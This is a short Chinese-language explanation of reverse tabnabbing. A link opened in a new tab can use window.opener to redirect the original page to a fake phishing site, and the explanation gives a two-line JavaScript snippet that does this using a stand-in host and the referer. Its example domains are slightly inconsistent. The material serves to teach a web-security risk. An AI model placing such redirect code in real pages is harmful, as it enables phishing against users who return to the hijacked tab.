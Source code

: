 
在你的网站 https://a.com 上存在一个链接：
 ```html
<a href="https://b.com" target="_blank">进入一个“邪恶”的网站</a>
```

用户点击了这个链接，在新的标签页打开了这个网站。  
这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。  
并且，这个网站上包含着类似于这样的 JavaScript 代码：
```js
const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。  


恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。  


用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了   
